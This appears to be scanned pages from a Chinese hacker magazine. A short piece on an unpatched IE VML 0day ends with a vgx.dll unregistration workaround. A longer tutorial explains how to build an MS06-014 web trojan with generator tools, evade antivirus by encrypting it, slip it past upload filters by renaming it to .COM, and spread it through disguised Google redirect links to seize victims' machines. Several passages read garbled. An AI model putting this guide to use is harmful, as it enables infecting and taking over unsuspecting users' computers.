









# 尾随而来的 0day 梦魇

## ——无补丁 IE 漏洞利用

从本文你可以学到：

- IE 漏洞工具的利用
- 如何防止 IE 被 VML 漏洞攻击

在全民挖洞的大环境下，曾经活生生地干掉 Netscape 且无坚不摧的 IE 在本月又报出了第二个“未公开 0Day 漏洞——Microsoft Internet Explorer Vector Markup Language Buffer Overflow Vulnerability”。由于这个 0Day 与前一个 IE 0Day 的漏洞出自同一作者之手，因此本周在一些国外大名鼎鼎的黑客网站中，这个 0Day 成为了“最热门”的话题。热门的原因不是因为产生了像当年的“RPC 远程溢出漏洞”一样的危害，而是因为这个作者在 Windows 没有推出补丁、至今可能都没有将漏洞细节报告给微软的情况下，就已经在国外网站公布攻击程序，而且是两次。这显然激怒了那些固有观点的人。

有的传统黑客道义，也让所有 IE 用户的计算机在无任何防护方法和架构措施的情况下暴露在黑客的面前。

当然，如果这种事情从道义的范畴来说，可以开一场辩论会，但既然是黑客手册，我们就从黑客的角度来考虑吧。还记得我们用这个 VML 漏洞，想过这回老站点的 0Day，也许这就是趁热打铁的时刻。废话少说，先由我们看看如何去做 IE 的 0Day。





- 解除 vgx.dll 的注册：点击“开始”菜单，选择“运行”，在其中输入命令：regsvr32 -u "%ProgramFiles%\\Common Files\\Microsoft Shared\\VGX\\vgx.dll"。然后点击“确定”，在随后的出现窗口中点击“确定”按钮。在微软发布补丁后，如果想恢复注册，只需再用上述方法运行下面的命令即可：regsvr32 "%ProgramFiles%\\Common Files\\Microsoft Shared\\VGX\\vgx.dll"。
- 尽量使用非 IE 内核的网络浏览器，如 Firefox、Opera 等。



编辑者点评：好久没有遇上这样的“0day”了，看来得记住了，一年前才有过这种漏洞利用工具先于微软补丁发布速度的 0Day 攻击，没想到还会再次见到，实在是件不错的事情！当然，IE 这种漏洞的利用不止于此，而“nop（溢出工具）有益于高版本的 IE 0day”为主，或许正是这个道理。

# 利用 Google 来伪装网页木马

通过网页木马来捕捉肉鸡，现在已经成为众多黑客使用的一种非常普遍的方法，但是有了网页木马如何才能更有效地进行传播呢？挂马当然是首选的目标，但是对于零技术站长来说难免有点不太现实了。今天我就来介绍一个简单的方法，利用 Google 来伪装我们的网页木马。

通过网页木马来捕捉肉鸡，现在已经成为众多黑客使用的一种非常普遍的方法。

## 一、配置木马

要制作网页木马，首先需要有一款优秀的木马程序，例如专门的国产木马程序除了灰鸽子以外，上兴木马也是一个不错的选择。尤其是刚刚推出的 4.0 版本，在配置中多出一个“采用无木马特征自动服务端”的选项，可以成功地……



## 二、制作网页木马

网页木马的制作我们采用现在非常流行的 MS06-014 漏洞来制作，现在网络上已经有很多利用该漏洞的网页木马生成器。首先将刚刚生成的服务端程序上传到自己申请的网络空间里面，但是越来越多的免费空间已经禁止上传 EXE 格式的文件。如果通过这种操作的话，可以采取将后缀名改为 COM 的方法来绕过限制。

框中录入木马服务器的网页地址，点击“生成网页”按钮即可马上生成我们的网页木马（如图 2）。网页木马生成完成后，我们需要对这个文件进行一下简单的编辑。首先用记事本程序打开这个网页文件，接着删除掉一些由生成器的制造者留下的信息，比如：新世纪网安 MS0614 网页生成器免杀版、520hack.com 等内容。虽然网页木马暂时还不会被查杀，但是为了更好地保护网页木马不被查杀，我们还是将网页木马进行一番加密为好。运行“局域网网页木马”时，首先在“网马地址”中设置网页木马的存放地址。程序也为用户提供了“加 00 法”和“加密法”两种免杀方法，用户可以根据自己的习惯来选择免杀方法。在加密法的“分段加密”中有一个“按照关键字分割”的加密方法，这里所指的关键字就是待解密为新的关键字的字串。当然并不是任何字符都能成为关键字的，只有在源代码里使用双引号引起来的字符串才能当作关键字，比如，“object”、“Scripting.FileSystemObject”、“Shell.Application”等（如图 3）。设置完成后，首先在本地计算机上进行测试，结果用于测试的程序成功地被漏洞所激活（如图 4）。









## 三、伪装网页木马

首先将网页木马也上传到我们的网络空间中，接下来我们就利用 Google 来伪装我们的网页木马并进行传播。这里我们需要利用一款名为“Google 跳转生成器”的工具，它可以将用户的真实木马地址伪装成“http://www.google.com/search?hl=zh-CN&q=???”这样形式的地址链接，这样在浏览器中输入上述地址后将会直接转到真实的木马地址。

“Google 跳转生成器”的伪装方式分为两种——“指定跳转（关键字）”和“指定跳转到主页（主页地址）”。用户如果选择“指定跳转网页（关键字）”，首先应该先登录到 Google，如果还没有登录，可以先在工具里面的“主页是否已登录”选择“否”，随后进行登录，这样就会在 Google 有关关键词及主题的页面中看到木马。而“指定跳转到主页（主页地址）”就先设置好主页地址，比如我们的网址是 www.nohack.cn，将其设置为主页地址，然后在浏览器中打开它，将会自动跳转到我们的网页木马网站。此外，Google 收录的“黑客子标题”是会不断变化的，如“黑客子标题 2.0 版本”等，需要随时保持关注和更新。最后，当 Google 收录了我们伪装的网页木马，就说明我们已经成功了。

# 四、小结

关于利用 Google 来伪装我们的网页木马就为大家介绍到这。手工操作都是利用现成的工具来操作的，所以对于菜鸟来说也是非常简单的。最后我简单地说一下，有的用户在浏览的时候发现木马服务端不能成功运行等问题，这主要是由于 MS06-014 漏洞的成因与 Windows 的 RDS.DataSpace ActiveX 组件漏洞有关。用户通过远程代码执行漏洞时，在使用老式的浏览器，比如 Maxthon、GreenBrowser，以及 XP SP2 中的 IE 浏览器时，都带有 ActiveX 插件过滤的功能，所以有时候会出现这种情况。［文章中所述为在线与无意自学］

编辑点评：通过 Google 来伪装网页木马还是有一定难度的，并且采用简单的工具来完成，菜鸟朋友们又可以多动点手了。知识库

